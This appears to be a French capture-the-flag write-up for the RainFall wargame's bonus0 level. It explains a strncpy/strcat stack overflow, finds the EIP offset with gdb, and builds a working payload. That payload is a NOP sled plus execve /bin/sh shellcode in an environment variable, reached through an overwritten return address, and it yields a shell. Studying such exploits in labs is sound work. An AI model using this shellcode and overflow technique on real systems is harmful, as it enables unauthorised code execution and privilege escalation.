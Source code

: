 # Soluce

Payload : 
```
(python -c 'print("A" * 4095 + "\n" + "A" * 9 + "\x1d\xf3\xff\xbf" + "A" * 7)') > payload; cat payload - | ./bonus0
```

## Description du code

En observant le code source nous pouvont constater que 2 fonction son presente :

La Fonction pp :

- Elle prend en argument une string de destination
- Elle declare 2 string d'environ une taille de 20 octet, S1 et S2
- Elle appel deux fois la fonction p en lui passant toujour un - et a la suite les 2 string declarer precedement
- Puis elle copie S1 dans la string de destination  grace a strcpy
- Elle ajoute un espace a la fin de destination
- Et enfin elle concatene la string de destination avec S2 grace a strcat

La fonction p :

- Elle prend 2 argument une string de destination et une string qui servira de prompt
- Elle declare un buffer d'une taille de 4104 octet
- Elle affiche sur l'entree standard la string qui stock le prompt
- Elle lis sur l'entree standard 4096 charactere maximul et stock le tout dans le buffer 
- Elle cherche un \n dans le buffer et le remplace par un \0 grace a strchr
- Et enfin elle copie les 20 premiere characteres dans dest grace a strncpy

## Explication de L'exploit

Maintenant on peu constater plusieur chose dans ce code, deja si les string qui sont entree dans p depasse les 20 charactere elle sont copier sans \0 donc quand strcpy et strcat sont appeler cela de overwritte des registre dans la stack et pottentiellement de segfault, testons :

```
bonus0@RainFall:~$ gdb ./bonus0 
(gdb) b main
Breakpoint 1 at 0x80485a7
(gdb) run
Starting program: /home/user/bonus0/bonus0 

Breakpoint 1, 0x080485a7 in main ()
(gdb) n
Single stepping until exit from function main,
which has no line number information.
 - 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7A
 - 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7A
Aa0Aa1Aa2Aa3Aa4Aa5AaAa0Aa1Aa2Aa3Aa4Aa5Aa��� Aa0Aa1Aa2Aa3Aa4Aa5Aa���
0x41336141 in ?? ()
```

On peu constater plusieur chose, deja cela segfault apres avoir puts, on peu voir que pour s1 equivaut a s1 + s2 donc cela overwrite bien, maintenant voyons voir l'etat des registre en utilisant 2 string differente pour deviner ou est notre offset :

```
(...)
 - 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7A
 - 
Da0Da1Da2Da3Da4Da5Da6Da7D
Aa0Aa1Aa2Aa3Aa4Aa5AaDa0Da1Da2Da3Da4Da5Da��� Da0Da1Da2Da3Da4Da5Da���
0x44336144 in ?? ()
(gdb) info r
eax            0x0      0
ecx            0xffffffff       -1
edx            0xb7fd28b8       -1208145736
ebx            0xb7fd0ff4       -1208152076
esp            0xbfffef50       0xbfffef50
ebp            0x32614431       0x32614431
esi            0x0      0
edi            0x0      0
eip            0x44336144       0x44336144
eflags         0x200286 [ PF SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33   
```

44336144 -> D3aD -> Da3D -> 9 in Da0Da1Da2Da3Da4Da5Da6Da7D

On peu voir que EIP est overwritte a l'offset 9 de S2, on peu en deduire que l'on on a seulment 11 octet pour notre placer du code arbitraire car l'on a seulement 20 octet qui seront copier dans s1 et 9 octet setont utiliser pour du padding, donc ret to libc est impossible car il coute 12 octet, un shellcode est possible mais seulement si il utilise que 11 octet le plus simple reste de passer par un shellcode stocker dans notre variable d'environnement.

```
export SHELLCODE=$(python -c 'print("\x90" * 2000 + "1\xc0\xb0\xbe\xcd\x801\xc91\xd2Qhn/shh//bi\x89\xe3j\x0bX\xcd\x80")')
```

Recuperont l'adresse de notre shellcode dans le program :

```
(...)
Breakpoint 1, 0x080485a7 in main ()
(gdb) call (char *) getenv("SHELLCODE")
$1 = 0xbffff129 "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"(...)
```

On a mis 2000 de nop sled pour etre plus precis dans notre payload, on va ajouter a notre adresse du shellcode 500 ce qui va faire :

bffff129 + 500 = bffff31d

Maintenant pour faire executer notre payload, il faudra passer par un fichier cependant 2 entree son attendu et il ne sera pas possible de juste faire un \n dans notre fichier car, il ne stoppera pas le premier read, ce qu'on va faire c'est que l'on va ecrire sur l'entree standard 4095 caractere + un \n pour ne pas segfault dans le strchr, ce qui va avoir pour effet de stopper le premier read, ensuite on mettra notre padding de 9 l'adresse de au milieu de notre nop sled et enfin les 7 caractere supplementaire pour faire segfault puts, ce qui aura pour effet d'acceder a notre shellcode et l'executer.


## Payload
```
[Padding de 4095] + ["\n" Pour ne pas segfault lors de strchr] + [Padding de 9] + [Adrresse dans le nop sled] + [Padding pour segfault]
```
```
bonus0@RainFall:~$ (python -c 'print("A" * 4095 + "\n" + "A" * 9 + "\x1d\xf3\xff\xbf" + "A" * 7)') > payload; cat payload - | ./bonus0
 - 
 - 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAA��� AAAAAAAAA���AAAAAAA���
whoami
bonus1
```
